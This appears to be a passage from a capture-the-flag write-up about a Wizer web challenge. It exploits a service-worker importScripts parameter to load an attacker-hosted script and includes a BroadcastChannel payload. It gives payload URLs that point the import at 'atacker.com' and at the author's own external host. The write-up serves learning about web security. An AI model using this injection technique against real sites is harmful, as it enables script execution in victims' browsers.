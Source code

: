 Service Worker Registration:
- `sw = document.getElementById('sw').innerText;`:
  1. Retrieves the innerText (text content) of the element with the ID "sw".
  2. Stores the retrieved content in the `sw` variable.


`https://events.wizer-ctf.com/sw.js?sw=` have the following code:

```js
// Allow loading in of service workers dynamically
importScripts('/utils.js');
importScripts(`/${getParameterByName('sw')}`);
```

It will import the serviceWorker from the value of `sw` since we can control it we can import our own serviceWorker with `sw=\\atacker.com/sw.js`. \
This will get the file from `https://atacker.com/sw.js`.

now to craft our serviceWorker take a look at this.

![image](/images/md/32e8eeae-7d95-4513-bead-2c04a566bb6e.webp)


this will listen for message event on BroadcastChannel('recipebook') and it will alert the `message` property of a message.

BroadcastChannel enables communication between different windows, tabs, or workers within the same origin. postMessage() method will trigger the 'message' event on other instances of the BroadcastChannel with the same name.

so in serviceWorker we create a new BroadcastChannel instance using the same name ('recipebook'): \
`const channel = new BroadcastChannel('recipebook');` \
Use the postMessage() method on the BroadcastChannel instance to send a message with a message property: \
`channel.postMessage({ message: 'Wizer' });`

serviceWorker payload:
```js
const channel = new BroadcastChannel('recipebook');
channel.postMessage({ message: 'Wizer' });
```

upload this file publicaly on internet: [https://aftab700.pythonanywhere.com/api/xss](https://aftab700.pythonanywhere.com/api/xss)

Payload:
```shell
https://events.wizer-ctf.com/?mode=sw&color=\\aftab700.pythonanywhere.com/api/xss
```

![image](/images/md/69c5ccec-add7-4347-9f4e-3537df332f21.webp)

<br>

### Profile Page
> Get the flag and submit it here (https://dsw3qg.wizer-ctf.com/submit_flag/<flag>) to win the challenge! (profile page: https://dsw3qg.wizer-ctf.com/profile)
